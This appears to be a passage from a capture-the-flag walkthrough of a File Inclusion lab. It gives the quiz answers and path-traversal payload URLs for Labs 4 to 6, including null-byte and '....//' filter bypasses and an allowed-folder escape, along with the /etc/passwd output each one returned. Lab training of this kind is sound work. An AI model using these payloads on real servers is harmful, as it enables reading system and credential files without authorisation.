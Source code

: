 ```error
Warning: file_get_contents(w) [function.file-get-contents]: failed to open stream: No such file or directory in /var/www/html/lab4.php on line 29
```
Which function is causing the directory traversal in Lab #4?
*file_get_contents*

```lab5
http://10.10.61.224/lab5.php?file=/....//....//....//....//etc/passwd%00
File Inclusion Lab

Lab #5: Include a file in the input form below
File Name
Current Path
/var/www/html
File Content Preview of /....//....//....//....//etc/passwd
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false 

or
http://10.10.61.224/lab5.php?file=/....//....//....//....//etc/passwd/.

or
http://10.10.61.224/lab5.php?file=/....//....//....//....//etc/passwd
```

```lab 6
http://10.10.61.224/lab6.php?file=w
File Inclusion Lab

Lab #6: Include a file in the input form below
File Name
Current Path
/var/www/html
File Content Preview of w
Access Denied! Allowed files at THM-profile folder only! 

```
Try out Lab #6 and check what is the directory that has to be in the input field?
*THM-profile*

```lab 6
http://10.10.61.224/lab6.php?file=THM-profile/../../../../etc/passwd/.
File Inclusion Lab

Lab #6: Include a file in the input form below
File Name
Current Path
/var/www/html
File Content Preview of THM-profile/../../../../etc/passwd/.
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/bin/sh bin:x:2:2:bin:/bin:/bin/sh sys:x:3:3:sys:/dev:/bin/sh sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/bin/sh man:x:6:12:man:/var/cache/man:/bin/sh lp:x:7:7:lp:/var/spool/lpd:/bin/sh mail:x:8:8:mail:/var/mail:/bin/sh news:x:9:9:news:/var/spool/news:/bin/sh uucp:x:10:10:uucp:/var/spool/uucp:/bin/sh proxy:x:13:13:proxy:/bin:/bin/sh www-data:x:33:33:www-data:/var/www:/bin/sh backup:x:34:34:backup:/var/backups:/bin/sh list:x:38:38:Mailing List Manager:/var/list:/bin/sh irc:x:39:39:ircd:/var/run/ircd:/bin/sh gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/bin/sh nobody:x:65534:65534:nobody:/nonexistent:/bin/sh libuuid:x:100:101::/var/lib/libuuid:/bin/sh mysql:x:101:102:MySQL Server,,,:/nonexistent:/bin/false 
```